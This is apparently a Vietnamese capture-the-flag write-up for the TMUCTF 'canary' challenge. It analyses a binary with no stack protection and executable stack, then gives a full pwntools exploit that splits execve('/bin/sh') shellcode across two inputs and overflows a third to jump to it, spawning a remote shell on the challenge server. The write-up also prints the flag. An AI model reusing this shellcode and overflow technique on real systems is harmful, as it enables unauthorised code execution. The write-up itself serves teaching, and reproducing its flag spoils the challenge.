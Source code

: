 # CANARY
# Reverse file
file 64-bit, dynamically linked, và không có stripped.
```sh
zir@ubuntu:~/Desktop$ file canary
canary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1bf7fbedab28e21b8519ef1d1629ddd9a7056ef8, for GNU/Linux 3.2.0, not stripped

```
Checksec file: mình thấy rằng 
* NX disabled - được quyền thực thi trên stack, có thể chạy shellcode trên stack.
* No canary found - chương trình không tạo ra 1 chuỗi ngẫu nhiên để ngăn việc buffer overflow.
```sh
zir@ubuntu:~/Desktop$ checksec canary
[*] '/home/zir/Desktop/canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

Đưa file canary vào IDA để xem pseudocode, nhận thấy luồng chương trình sẽ có 3 hàm quan trọng: 
* main
* compare
* printresult.

```sh
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Main func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  tmulogo();
  puts(
    "Welcome to our String Comparison System!\n"
    "Enter two strings to be compared with each other. \n"
    "We will tell you the comparison result.\n");
  compare();
  return 0;
}
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Compare func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int compare()
{
  char s2[15]; // [rsp+2h] [rbp-2Eh] BYREF
  char v2[27]; // [rsp+11h] [rbp-1Fh] BYREF
  int v3; // [rsp+2Ch] [rbp-4h]

  strcpy(v2, "noshellcode");
  puts("Enter first string (up to 15 chars): ");
  readline(&v2[12], 0x1BuLL);
  puts("Enter second string (up to 15 chars): ");
  readline(s2, 0xFuLL);
  puts("Note that we have a canary between these two strings and you cannot inject any shellcode!\n");
  printf("Do not you believe? Here is the canary address: %p\n", v2);
  v3 = strcmp(&v2[12], s2);
  if ( !strcmp(v2, "noshellcode") )
    return printresult(v3);
  else
    return puts("You overwrite the canary :|\nNo results for you. Bye Bye.\n");
}

-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=- Printresult func -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

int __fastcall printresult(int a1)
{
  char s[12]; // [rsp+14h] [rbp-Ch] BYREF

  puts(
    "===================================================================\n"
    "Thank you for using our system.\n"
    "If you don't mind, leave your phone number for us in order to inform you about our new productions later!\n"
    "\n"
    "Enter your phone number: ");
  fgets(s, 32, stdin);
  puts("\nThis is the comparison result: ");
  if ( a1 )
    return puts("---> * The strings are not equal! *");
  else
    return puts("---> * The strings are equal! *");
}
```

Chương trình sẽ cho mình nhập khoảng 3 lần:
* Trong hàm compare:
    * Copy chuỗi "noshellcode" vào biến v2.
    * Lần 1: Nhập 27 kí tự, bắt đầu từ &v2[12]  ----------> BufferOverflow
    * Lần 2: Nhập 15 byte vào biến s2.
    * In ra địa chỉ bắt đầu của biến v2.
    * So sánh 2 giá trị vừa nhập vào s2 và &v2[12] với nhau và đưa giá trị tối đa 4 byte vào trong biến v3 (kiểu int), đóng vai trò như 1 canary.
    * So sánh biến v2 với chuỗi "noshellcode", nếu bằng nhau sẽ gọi hàm printresult(v3), chuẩn bị cho lần nhập lần 3.
* Trong hàm printresult:
    * Lần 3: Nhập 32 kí tự vào S[12] -------------> BufferOverflow
    * In 1 số chuỗi ra.

# Solution

Chương trình cho mình 3 lần nhập, 1 địa chỉ trên stack, NX disabled, No Canary found. Mình sẽ sử dụng shellcode cho bài này. Đây là sơ đồ mình đã debug và ghi nhận địa chỉ của từng lần nhập, mình sẽ sắp xếp theo thứ tự địa chỉ tăng dần.

* Lần 3: 0x7ffce8205554 - 0x7ffce8205574 (32)
* Lần 2: 0x7ffce8205572 - 0x7ffce8205581 (15)
* Lần 1: 0x7ffce820558d - 0x7ffce82055a8 (27)

```sh

0x7ffce8205554 --> 0x7ffce8205572 --> 0x7ffce8205581 --> 0x7ffce820558d --> 0x7ffce82055a8

|-------------------------------------------------- v2[0-11] ----------- v3---------------->

```

Trong sơ đồ trên có 2 chướng ngại:
* v2[0-11] chứa chuỗi "noshellcode"
* v3 chứa giá trị từ hàm strcmp(&v2[12],s2) tối đa 4 byte.

Mình sẽ nhập shellcode chia ra làm 2 phần, phần đầu shellcode sẽ nhập vào lần 2, và phần sau sẽ nhập vào lần 1. Lần nhập thứ 3 mình sẽ RET về địa chỉ chứa shellcode.

Sử dụng 1 số lệnh jmp _offset (\xeb\x_offset) để bỏ qua các chướng ngại.

## File exploit.py
```python
from pwn import * 
#s = process("./canary")
s = remote("185.97.117.19", 7030)
pause()

sc1 = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\xeb\x0c"
sc2 = "\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xeb\x04aaaa\xb0\x3b\x48\x31\xF6\x0f\x05\x00"



s.sendline(sc2)
s.sendline(sc1)
s.recvuntil("canary address: ")

stack_addr = int(s.recv(14),16) - 0xf 

payload = "c"*(0xc+8) + p64(stack_addr)
s.sendline(payload)
s.interactive()

#sc = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

# 0xc-0x1b = 0xf 
# 0xc la offset tu dia chi leak den PHAN SAU cua SHELLCODE
# 0x1b la offset tu PHANSAU cua SHELLCODE den PHANDAU cua SHELLCODE


```

## Flag >> `TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}`

